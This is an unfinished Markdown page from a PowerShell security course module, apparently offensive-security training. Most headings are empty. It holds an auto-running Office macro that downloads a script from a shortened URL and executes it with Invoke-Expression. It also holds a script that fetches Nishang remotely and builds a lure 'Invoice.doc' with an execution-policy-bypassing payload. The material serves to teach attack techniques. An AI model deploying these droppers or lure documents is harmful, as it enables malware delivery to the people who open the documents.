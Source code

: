 ```yaml
---
ref: cmap-powershell
title: CMAP Module 6 - Empowering the PowerShell
date: 2022-10-25T00:00:00+00:00
layout: page
lang: en
permalink: /en/powershell/
sitemap: false
---
```


> Work in Progress

## Hackers and Powerhell

### Basic Techniques

#### Encoded Commands

#### Running Scripts from Web

#### PowerShell Execution Policy

#### Constrained Language Mode

### Office Macros

#### PowerShell Autorun from Macro
```vbs
' Word Compatibility
Sub Auto_Open()
    Dim exec As String
    cmd = "powershell.exe ""Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://bit.ly/e0Mw9w'))"""
    Shell (cmd)
End Sub

' PowerPoint Compatibility
Sub AutoOpen()
    Auto_Open
End Sub

' Excel Compatibility
Sub Workbook_Open()
    Auto_Open
End Sub
```

#### Macro Document Generator
```powershell
# Import the Out-Word cmdlet from the Nishang module
IEX(IWR 'https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-Word.ps1')
 
# Create payload
$payload = "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process"

# Generate a Word document
$path = Join-Path (Resolve-Path .) 'Invoice.doc'
Out-Word -Payload $payload -OutputFile $path -RemainSafe
```

### WMI Persistence

### Auditing PowerShell

#### Script Execution

#### Remoting Sessions

#### Microsoft Defender for Endpoint

## Active Directory Security Assessment

### Operating System Versions

### Kerberoasting

### DSInternals

### Event Logs


## Desired State Configuration

### Domain Controller Security Baselines


### CIS Checklists
## Pester

## Unattended Scripts

### Scheduled Tasks

### Managed Service Accounts

### Script Credentials

### Azure AD Credentials
